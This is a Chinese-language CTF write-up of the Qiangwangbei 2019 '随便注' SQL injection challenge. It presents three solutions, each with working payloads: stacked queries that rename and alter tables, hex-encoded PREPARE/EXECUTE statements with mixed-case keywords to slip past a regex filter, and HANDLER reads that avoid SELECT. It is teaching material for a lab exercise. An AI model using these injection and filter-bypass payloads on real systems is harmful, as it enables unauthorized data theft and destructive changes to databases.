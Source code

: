 ```yaml
---
title: 强网杯 2019 - 随便注
date: 2024-09-11 21:09:05
permalink: /pages/a7f3bd/
sidebar: false
categories:
  - n日一题
author: 
  name: the0n3
  link: https://the0n3.top
---
```


参考：

[【BUUCTF[强网杯 2019]随便注 的三种解法】](https://blog.csdn.net/qq_44657899/article/details/103239145)

## 思路一

```sql
?inject=1' or 1='1
?inject=1' union select 1,2
```

使用联合查询，回显`return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);`，显示出过滤的内容

没有过滤分号，可以堆叠注入。显示当前库表

```sql
?inject=1';show tables;
```

有`1919810931114514`,`words`两张表

显示words表的字段

```sql
?inject=1';show columns from words;
```

![1](/medias/daily/sql-test/1.png)

当前查询到的信息和words表中字段符合。php里的sql语句查询的是words表，现在不能使用select语句，不考虑盲注的话，**可以利用php当前的sql语句的select查询，需要先把flag所在的表名改为words**

它的sql语句可能是这样

```php
$sql = "select id, data from words";
$result = $conn->query($sql);
if ($result->num_rows > 0) {
    while($row = $result->fetch_assoc()) {
        echo "id: " . $row["id"]. "data: " . $row["data"]. "<br>";
    }
}
```


看看这个数字表里的字段，直接写数字表名查不到信息，需要给数字表名添加上反引号(又学到了)

```sql
?inject=1';show columns from 1919810931114514;
?inject=1';show columns from `1919810931114514`;
```

现在能看到，数字表里只有一个flag，先把words表随便改个名字，再把数字表名改成words

修改表名后，还需要修改和补充字段，现在的words表里没有id字段和data字段，可以插入id字段，修改flag字段的名字

```sql
?inject=1';show tables;rename table words to wow;rename table `1919810931114514` to words;alter table words add id int;alter table words change flag data varchar(100);
```

现在再使用万能密码就可以把flag爆出来了

```sql
?inject=1' or 1='1
```

## 思路二

使用16进制编码查询语句
```sql
select *from `1919810931114514`;
# 编码后，在定义变量赋值时，前面加上0x，不然认不出来
73656c6563742a66726f6d6031393139383130393331313134353134603b
```

又学到了

::: tip
mysql使用set @变量名=值，设置变量  
prepare from预处理语句，会进行解码操作  
execute执行sql语句  
:::

所以可以使用`prepare from`解码一个16进制编码的查询语句，使用execute来执行，这个过程设置把16进制编码设置成变量更方便

题目提示`strstr($inject, "set") && strstr($inject, "prepare")`，set,prepare不能同时小写

```sql
?inject=1';SeT @a=0x73656c6563742a66726f6d6031393139383130393331313134353134603b;prepare execsql from @a;execute execsql;
```

测试了一下，很舒服哈哈，编码的表名需要使用反引号包裹

![sql](/medias/daily/sql-test/sql.png)

## 思路三

MySQL 的底层操作，用于直接访问表的行

```sql
?inject=1'; handler `1919810931114514` open as `a`; handler `a` read next;#
```

解释

```sql
-- 打开表
HANDLER `example_table` OPEN AS `a`;

-- 读取第一行
HANDLER `a` READ NEXT;

-- 读取第二行
HANDLER `a` READ NEXT;

-- 继续读取其他行
-- 直到你读取完所有行

-- 关闭表
HANDLER `a` CLOSE;
```

![handler](/medias/daily/sql-test/handler.png)